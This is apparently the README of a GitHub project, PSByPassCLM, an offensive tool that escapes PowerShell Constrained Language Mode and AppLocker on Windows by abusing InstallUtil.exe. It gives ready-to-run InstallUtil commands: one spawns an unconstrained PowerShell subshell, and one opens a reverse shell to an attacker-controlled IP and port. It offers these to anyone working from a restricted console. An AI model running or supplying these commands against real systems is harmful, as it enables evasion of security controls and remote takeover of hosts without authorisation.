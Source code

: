 # PSByPassCLM
Bypass for PowerShell Constrained Language Mode

## Description and references 
This technique might come in handy wherever or whenever you're stuck in a low privilege PS console  
and PowerShell Version 2 engine is not available to perform a [PowerShell Downgrade Attacks](http://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/).

What described above may happen in [modern] Windows OSes (like Windows 10, Windows Server 2016..),  
that nowdays are shipped out with AppLocker and PowerShell Version 5 (v5).

With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools.  
Imho, not beeing able to use core language functionalities (eg, load script in memory and so on..) it's a such a pain.

"PowerShell v5 detects when AppLocker Allow mode is in effect and sets the PowerShell language to Constrained Mode,  
severely limiting the attack surface on the system.  
With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools." [[Source]](https://adsecurity.org/?p=2604)
 
## Build the binary
The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...  
You should be able to easily compile and build the binary with the default configuration Debug/X64.

## Usage
Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass execution of exe.
Once you've compiled the binary, issue the below command on the target host.  
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-) ..)
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## Testing
Tested on the following enviroment  (Windows Server 2016)
![Screenshot](img/clm01.JPG?raw=true)

![Screenshot](img/clm02.JPG?raw=true)

PS process in current console
![Screenshot](img/clm03.JPG?raw=true)

Trying to open PS reverse shell
![Screenshot](img/clm04.JPG?raw=true)

Got the shell
![Screenshot](img/clm05.JPG?raw=true)


## Useful Links
https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/  
https://adsecurity.org/?p=2604  
https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/  
https://blog.stealthbits.com/how-attackers-are-bypassing-powershell-protections/  
https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/  


## Author
This code is developed by Chris D. [@padovah4ck](https://twitter.com/padovah4ck) // [LinkedIn](https://www.linkedin.com/in/chrisdanieli/) //   
Use it at your own risk. No responsability on my side
